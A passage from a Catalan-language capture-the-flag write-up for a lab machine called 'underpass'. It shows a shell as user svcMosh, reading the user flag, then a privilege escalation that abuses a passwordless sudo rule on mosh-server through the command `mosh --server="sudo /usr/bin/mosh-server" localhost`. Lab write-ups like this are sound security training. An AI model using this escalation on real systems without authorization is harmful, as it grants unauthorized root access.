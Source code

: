  ```

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Dec 29 09:16:55 2024 from 10.10.16.14
svcMosh@underpass:~$ whoami
svcMosh
svcMosh@underpass:~$ id
uid=1002(svcMosh) gid=1002(svcMosh) groups=1002(svcMosh)
svcMosh@underpass:~$ cat user.txt
993ea3ad188d3d489c08ae26bd8b09a3

```


Bé, ara escalarem privilegis. No hi ha binaries SUID explotables per tant no hi ha fitxers al sistema amb el bit SUID activat que es puguin utilitzar per obtenir privilegis de root. El següent que mirem i on tenim èxit és els privilegis sudo, veiem que  l'usuari pot executar `mosh-server` amb privilegis de root sense necessitat d'una contrasenya:

```
svcMosh@underpass:~$ sudo -l 
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

```

Busquem per internet per saber què és Mosh i veiem que Mosh (Mobile Shell) és una aplicació de terminal remota similar a SSH, dissenyada per ser més robusta en connexions inestables. Funciona creant una sessió interactiva entre el client i el servidor mitjançant el protocol UDP. amb això veiem que el punt dèbil és que si un usuari pot executar `mosh-server` com a root sense contrasenya, es pot utilitzar aquest servidor per establir una connexió local amb privilegis elevats. Busquem documentació sobre el seu funcionament: https://www.securityartwork.es/2017/03/08/mosh-mas-alla-del-ssh/  i per tant veiem que l'argument clau és el port `60001` i la clau `MOSH_KEY` que s'utilitzen per establir la connexió hem de seguir aquests passos:

El servidor Mosh permet passar un paràmetre `--server` que especifica com s'ha d'executar el servidor. Aquesta funcionalitat es pot aprofitar per fer que el servidor Mosh s'executi com a **root**.  Per tant, des de la màquina víctima, des de dins del servidor, executem la següent comanda per aprofitar aquesta vulnerabilitat:

`mosh --server="sudo /usr/bin/mosh-server" localhost`

Amb aquesta comanda el que hem fet és redefinir el comportament del servidor Mosh, fent que s'executi amb privilegis de root utilitzant sudo ja que amb localhost connecta localment al servidor Mosh que s'ha configurat amb privilegis elevats.
